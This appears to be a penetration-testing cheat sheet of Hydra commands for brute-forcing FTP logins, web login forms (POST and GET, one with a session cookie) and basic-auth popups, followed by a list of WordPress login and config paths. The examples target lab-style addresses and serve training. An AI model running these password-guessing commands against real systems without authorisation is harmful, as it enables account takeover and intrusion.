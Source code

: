 
## <span style="color: #3498db; font-size: 0.8em;">Crack FTP Credentials</span>

>  Dictionary Attack with Hydra:
- `hydra -L /wordlists/usernames.txt -P /wordlists/pass.txt service://IP`
- `hydra -L pathFile-usernames –P pathFile-passwords IP -s port service`
- `hydra -l username –P pathFile-passwords IP -s port service`
- `hydra -L pathFile-usernames –p password IP -s port service`
Example: `hydra -L /home/usernames.txt -P /home/pass.txt ftp://IP`


## <span style="color: #3498db; font-size: 0.8em;">Brute force to login</span>

>  Hydra
- `hydra -l <username> -P </passwords_list.txt> target http-post-form "/login-page.php:fieldUsername=username&fieldPassword=^PASS^:text"``
- Example:

	* `Post`

	* `hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.61.16 http-post-form "/admin/index.php/:user=admin&pass=^PASS^:Username or password invalid"`

	* `Get`

	* `hydra -l admin -P /usr/share/wordlists/john.lst 'http-get-form://127.0.0.1:42001/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=crqloublvsn9ed8vppss17jvjl; security=low:F=Username and/or password incorrect'` 

	* `for medium add -V -I`




## <span style="color: #3498db; font-size: 0.8em;">Brute force to popup</span>

> Hydra
- `hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt IP -s 30705 http-get /`


## <span style="color: #3498db; font-size: 0.8em;">Wordpress</span>

> Pentest Wordpress
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress
-  xmlrpc.php
> Interesting paths
* /wp-login.php
* /wp-login
* /wp-admin
* /wp-admin.php
* /login
* /wp-config.php
* /wp-content/uploads/
* /uploads
* /wp-includes/
* /admin
* /wp-admin/login.php
* /wp-admin/wp-login.php
* /login.php
